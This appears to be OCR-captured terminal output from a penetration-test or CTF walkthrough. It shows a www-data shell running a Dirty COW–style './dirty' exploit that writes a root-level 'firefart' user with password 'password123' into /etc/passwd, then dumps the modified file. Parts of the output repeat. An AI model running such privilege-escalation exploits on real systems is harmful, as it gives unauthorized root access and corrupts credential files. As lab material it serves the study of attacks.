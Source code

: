 ```
drwx------  2 root     root      4096 Oct 27 19:13 vmware-root_1389-3980363888
```

```
www-data@ubuntu:/tmp$ ./dirty password123
./dirty password123
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: password123
Complete line:
firefart:fi1IpG9ta02N.:0:0:pwned:/root:/bin/bash

mmap: 7f1e73243000
ptrace 0
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password 'password123'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
www-data@ubuntu:/tmp$ /etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: password123
Complete line:
firefart:fi1IpG9ta02N.:0:0:pwned:/root:/bin/bash

mmap: 7f1e73243000
madvise 0

Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password 'password123'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
```

```
www-data@ubuntu:/tmp$ cat /etc/passwd
cat /etc/passwd
firefart:fi1IpG9ta02N.:0:0:pwned:/root:/bin/bash
/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
syslog:x:101:103::/home/syslog:/bin/false
messagebus:x:102:104::/var/run/dbus:/bin/false
phos:x:1000:1000:phos,,,:/home/phos:/bin/bash
sshd:x:103:65534::/var/run/sshd:/usr/sbin/nologin
www-data@ubuntu:/tmp$ su firefart
su firefart
su: must be run from a terminal
```
